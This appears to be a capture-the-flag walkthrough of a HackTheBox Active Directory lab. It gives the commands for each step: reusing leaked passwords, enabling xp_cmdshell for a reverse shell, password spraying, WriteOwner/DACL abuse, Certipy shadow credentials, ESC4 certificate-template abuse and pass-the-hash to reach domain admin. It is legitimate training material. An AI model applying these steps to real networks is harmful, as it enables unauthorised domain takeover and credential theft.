


Active Directory Series - Machine 2
Introduction
This is the second machine of the revised and newly improved Active Directory Exploitation track in HackTheBox.

This machine was labeled "Easy" level, but to be honest it did not feel easy. I would say medium. It was fun and pain in the ass at the same time. I have encountered things in which I needed to do some further research on just to finish the machine. Anyways, I'll show you what is it about. The machine provided a credential for 1 user:
User: rose
password: KxEPkKe6R8su
Recon and Enum Phase
The usual. I ran an nmap scan:
nmap -sCV -p- --min-rate 300 -vv 10.10.11.51
Nmap results:
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-04-01 12:49:20Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| Target_Name: SEQUEL
| NetBIOS_Domain_Name: SEQUEL
| NetBIOS_Computer_Name: DC01
| DNS_Domain_Name: sequel.htb
| DNS_Computer_Name: DC01.sequel.htb
| DNS_Tree_Name: sequel.htb
|_ Product_Version: 10.0.17763
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-04-01T12:50:59+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:, DNS:DC01.sequel.htb
| Issuer: commonName=sequel-DC01-CA
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49689/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49690/tcp open msrpc Microsoft Windows RPC
49693/tcp open msrpc Microsoft Windows RPC
49706/tcp open msrpc Microsoft Windows RPC
49722/tcp open msrpc Microsoft Windows RPC
49731/tcp open msrpc Microsoft Windows RPC
49800/tcp open msrpc Microsoft Windows RPC
A bunch of open ports but hey! We can check if we can enumerate some shares unauthenticated.
Well, it seems that I was not that lucky. So I used the credentials that were given by the challenge.
nxc smb -u rose -p --shares
That's cool. So I was able to retrieve information with that. So there was a share called Accounting Department. So I checked if I could access it.
smbclient \\\\\\'Accounting Department' -U rose --password=

So, yeah I could access it and there were two files as you can see on the screenshot above.
The sharedStrings.xml looked juicy to me. So I opened it and I found it's a bunch of users and their password.
Though if you look closely, there is a user called sa and its password.
With that information, I was thinking maybe I could login to their SQL Server. I don't know. Just a thought. So I fired up another terminal and hit it with
this tender juicy hatdog üå≠ command:
python3 mssqlclient.py 'sa:'@
As you can see, I was able to logged in! This is great. There is an improvement.
From here on, I was checking if I could exfil some data, looked for some other juicy databases, but it wasn't tender juicy as I was expecting. Luckily, out of the blue, I remember
something I have done before which is using xp_cmdshell to execute system commands on the SQL Server.
> xp_cmdshell is an extended stored procedure in Microsoft SQL Server that allows commands to be executed directy from it. This is disabled by default due to security considerations as it can be abused for privilege escalation and remote code execution. If a user with sysadmin priveleges enables xp_cmdshell, SQL Server can execute system commands with SQL Server's service account privileges, which is a major security risk.
{: .prompt-danger}
With that information, I enabled xp_cmdshell so I could execute commands.
Enable advanced options and xp_cmdshell:
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
Now, that's enabled. At this point, I was thinking of establishing a reverse shell. So with the help of Reverse Shell Generator, I crafted my payload.
Since it's a windows system, of course it would be logical to use powershell payload, right? I don't know, but yeah. Based on my experience, it is much better to encode the payload to Base64 so I chose the payload encoded in Base64. I also setup the listener on the side as well.
After executing the command above, I was able to spawn a shell on my machine.
So, it seems that I am user sequel\sql_svc. So first I tried looking around then when I went to C:\ directory, there was this folder named SQL2019. That's something interesting, right? So I checked its contents.
I'm not sure what that was so I checked its contents as well.
This is where it got interesting. As you can see in the screenshot above, there is a file called sql-Configuration.INI
> Configuration.INI is a configuration file used to perform unattended installations of Microsoft SQL Server. So instead of manually selecting options in the SQL Server setup wizard, you can provide details in this file to automate the installation process.
{: .prompt-info}
What's interesting in this file is that, usually, one of the parameters is the password. So if I am not mistaken, this configuration file should have password in it. So I checked the contents of this configuration file.
So, there it is. Password. What a tender juicy hatdog. üå≠
I looked around to check for more things or information that would be useful eventually. I looked into the C:\users directory to check who are the users and I found another user named ryan.
Gaining Initial Foothold
From here on, I was thinking maybe with all the passwords I got now could be used to this user ryan. Remember the accounts.xlsx that contained an xml file where there was a list of passwords and users. Though there was no ryan user there, I still copied all the password and put it in a pass.txt file. I also included the password from the configuration file. Who knows, we need all the resources we have to check for things, right? In that way, maybe we could hit some tender juicy hatdog üå≠ along the way.
Using netexec I tried to check if any of these passwords would fit for ryan so we could establish remote access using evil-winrm.
nxc winrm -u ryan -p pass.txt
And would you look at that! We hit a hatdog üå≠. So I used that password to for the evil-winrm.
evil-winrm -i -u ryan -p
So now I am logged in as ryan. I also got the user flag. At this point, it was time to look around and find a way to escalate privileges. So I transferred the SharpHound.exe from my machine to the victim machine using smbserver.
python3 smbserver.py -username -password -smb2support

After executing the SharpHound and extracting the zip file from its result, I fired up bloodhound to check for privesc paths. After looking around, this is what I got. So, I was not able to take a screenshot where their original names were showing so I had to improvise. Sorry about that. Anyways As you can see, ryan seemed to have the ability to take owenership of ca_svc.
> WriteOwner permission allows a user to change the ownership of an object (e.g., a user account, group, or computer)
{:.prompt-warning}
> In this case, ryan has WriteOwner permissions over ca_svc. This means ryan can change the owner of the ca_svc account to themselves. This will allow ryan to modify its permissions and give themselves full control over it, effectively granting themselves the same privileges as ca_svc.
{:.prompt-info}
Privilege Escalation
At this point, that information could be used for a potential privilege escalation attack. So it's time to abuse the
WriteOwner permission. I used owneredit.py from Impacket for this.
owneredit.py -action write -new-owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
Now the owner has been successfully modified, I can now change permissions. For the next step, I used dacledit.py.
This command modifies the Discretionary Access Control List (DACL) of ca_svc in Active Directory on the sequel.htb. This grants FullControl to ryan.
python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:
| Command Option | Explanation |
|---|---|
| -action 'write' | Modification of DACL. |
| -rights 'FullControl' | Grants Full Control permissions. Highest level of access. |
| -principal 'ryan' | The user whol will receive Full Control. |
| -target 'ca_svc' | The AD object whose permissions will be modified. |
| -sequel.htb/ryan:password | Credentials used to authenticate. |
After executing the command, DACL was modified successfully. At this point, I used certipy tool to interact with the Active Directory Certificate Services (AD CS). This tool can be used to enumerate, abuse, and misconfigure AD CS for privilege escalation or persistence.
sudo certipy-ad shadow auto -u 'ryan@sequel.htb' -p '' -account 'ca_svc' -dc-ip
| Command Option | Explanation |
|---|---|
| shadow auto | Performs the Shadow Credentials Attack. This allows an attacker to gain persistence to another AD user. |
| -u 'ryan@sequel.htb' | The user account being used to authenticate. |
| -p ' | The password to login to AD. |
| -account 'ca_svc' | The target account whose access is being hijacked. |
| -dc-ip | Specifies the Domain Controller (DC) IP address. |
I got the NT hash for the user
ca_svc.
From here on, I needed to search for vulnerable certificate templates. I'm referring to misconfigured templates that could allow attackers to escalate privileges via ESC1, ESC2, etc.
So first, I set the environment variable KRB5CCNAME to point a Kerberos credential cache file ca_svc.ccache in the current working directory $PWD. The rest of the command is explained below.
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip -vulnerable -stdout
| Command Option | Explanation |
|---|---|
| certipy-ad find | The main command to search for certificate templates in the AD Certificate Services (AD CS) environment. |
| -scheme ldap | This specifies the authentication scheme to ldap. |
| -k | This enables Kerberos authentication (using the ticket from KRB5CCNAME). |
| -debug | Enables debug output for troubleshooting. |
| -target dc01.sequel.htb | This sets the target domain controller. |
| -dc-ip | The IP address of the domain controller |
| -vulnerable | This will list the only certificate templates that are vulnerable to exploitation. |
| -stdout | This forces the output to be printed to the console |
As you can see in the result of the command bove, I was able to determine what to do next. Indicated in the vulnerabilities section was the ESC4.
> ESC4 is a vulnerability that lets the attaker modify the Certificate Template to make it vulnerable. The conditions for this is that a low-privileged user has write permissions (e.g., WriteProperty, WriteDacl) on a certificate template.
{:.prompt-warning}
> We could use this for privilege escalation which could potentially lead to full domain compromise.
{:.prompt-danger}
With the information above, it was time to crack thy bones. ü¶¥
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip
I used this command to exploit AD CS. This will request a certificate for the administrator@sequel.htb account using the DunderMifflinAuthentication template. Since ca_svc has control over this template, it can generate a valid authentication certificate for administrator.
sudo certify-ad req -username 'ca_svc@sequel.htb' -hashes -ca sequel-DC01-CA -target DC01.sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb -dc-ip
| Command Option | Explanation |
|---|---|
| -username 'ca_svc@sequel.htb' | Authenticates as the ca_svc user. |
| -hashes | Uses the NTLM hash of ca_svc instead of a password |
| -ca sequel-DC01-CA | Specifies the Certificate Authority (CA) server |
| -target DC01.sequel.htb | Targets the Domain Controller (DC01) for the certificate request. |
| -template DunderMifflinAuthentication | Specifies the certificate template to use for the request |
| -upn administrator@sequel.htb | Requests a certificate as administrator@sequel.htb, allowing authentication as the Domain Admin. |
| -dc-ip | By this time, YOU GUYS / GAL ALREADY KNOW WHAT THIS HATDOG IS FOR RIGHT? |
Since I already have the administrator.pfx certificate that I could use to authenticate instead of using a password or hash.
certipy-ad auth -pfx administrator.pfx -domain sequel.htb
| Command Option | Explanation |
|---|---|
| certipy-ad auth | Uses Certipy to authenticate to Active Directory. |
| -pfx administrator.pfx | This specifies the PFX (Personal Information Exchange) certificate for authentication. |
| -domain sequel.htb | Ya'll know what this does. |
And now I got the administrator's hash. I could now log in as administrator using PtH attack.
evil-winrm -i -u "administrator" -H
I am now logged in as administrator! From here on, just locate where the root flag is. I already got mine.
Conclusion
This is how I understand on how to attack this machine. If you have any other ways or methods in compromising this machine, or even deeper explanation on how things work, I am open for feedback and discussion. So please feel free to reachout at reacher@dracozona.com.